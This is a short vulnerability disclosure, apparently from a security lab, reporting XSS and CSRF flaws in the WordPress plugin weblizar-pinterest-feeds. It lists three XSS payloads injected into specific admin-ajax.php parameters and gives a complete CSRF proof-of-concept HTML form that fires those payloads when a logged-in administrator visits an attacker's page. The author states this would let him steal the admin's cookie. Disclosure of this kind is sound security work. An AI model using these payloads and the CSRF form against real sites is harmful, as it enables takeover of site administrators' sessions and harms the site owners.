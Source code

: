 Well ,sir ,I just found a XSS bug and a CSRF bug at wp-plugin weblizar-pinterest-feeds.

#### ADLab of Venustech

#### XSS

```
http://127.0.0.1/wordpress/wp-admin/admin-ajax.php
```

When I pentest the  parameter, I found it does not filter well.

Weak data parameters:

```
1.PFFREE_Access_Token=test'"><svg/onload=console.log(/xss1/)><'"
2.weblizar_pffree_settings_save_get-users=1'"><svg/onload=console.log(/xss2/)><'"
3.action=pffree_security&security=test'"><svg/onload=console.log(/xss3/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/weblizar-pinterest-feeds/xss.png)


#### CSRF

Well, the xss here need to combined with a csrf bug. Because no csrf protection here, we can cheat the admin user to visit the evil html on the evil site.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/wordpress/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="PFFREE&#95;Access&#95;Token" value="test&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss1&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="weblizar&#95;pffree&#95;settings&#95;save&#95;get&#45;users" value="1&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss2&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="action" value="pffree&#95;security" />
      <input type="hidden" name="security" value="test&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss3&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

In a word, if the manager could be cheated to visit my evil html on my site, I can get the manager's cookie easily, or do something more evilly.


Well,  by the way, I just test the bug in the wordpress 4.9.1 and the latest version of the wp-plugin weblizar-pinterest-feeds.
